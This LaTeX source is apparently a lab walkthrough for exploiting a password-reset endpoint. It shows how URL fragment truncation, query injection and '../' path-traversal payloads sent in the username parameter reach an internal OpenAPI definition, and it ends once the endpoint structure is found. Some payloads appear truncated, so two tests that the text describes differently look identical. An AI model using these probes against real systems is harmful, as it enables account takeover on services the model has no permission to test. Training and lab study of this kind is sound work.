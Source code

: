 \documentclass[11pt]{article}
\begin{document}
\begin{enumerate}
  \item Trigger a password reset for \texttt{administrator}. Capture \texttt{POST /forgot-password}. Send to Repeater.

  \item Test \textbf{fragment truncation}:
\begin{httpbox}[]
username=administrator%
\end{httpbox}
  Response: \texttt{Invalid route} $\Rightarrow$ input lands in a URL path; \texttt{\#} truncated trailing route segments.

  \item Test \textbf{query string injection}:
\begin{httpbox}[]
username=administrator%
\end{httpbox}
  Response: \texttt{Invalid route} $\Rightarrow$ same behaviour; confirms path context.

  \item Test \textbf{same-level traversal}:
\begin{httpbox}[]
username=./administrator
\end{httpbox}
  Response: original (normal) $\Rightarrow$ resolves to same path as without the prefix.

  \item Test \textbf{parent traversal}:
\begin{httpbox}[]
username=../administrator
\end{httpbox}
  Response: \texttt{Invalid route} $\Rightarrow$ moved one level up, path is now invalid.
\end{enumerate}

\subsection{Phase 2 --- Navigate to the API Definition}

\begin{enumerate}
  \item Incrementally add \texttt{../} until you exit the API root. At four levels:
\begin{httpbox}[]
username=../../../../%
\end{httpbox}
  Response: \texttt{Not found} $\Rightarrow$ navigated outside the API root.

  \item Probe common API definition filenames at this level:
\begin{httpbox}[]
username=../../../../openapi.json%
\end{httpbox}
  Response: error message revealing the internal endpoint structure:
\begin{httpbox}[]
/api/internal/v1/users/{username}/field/{field}
\end{httpbox}
  The path exposes a \textbf{\texttt{field}} parameter.
\end{enumerate}
\end{document}
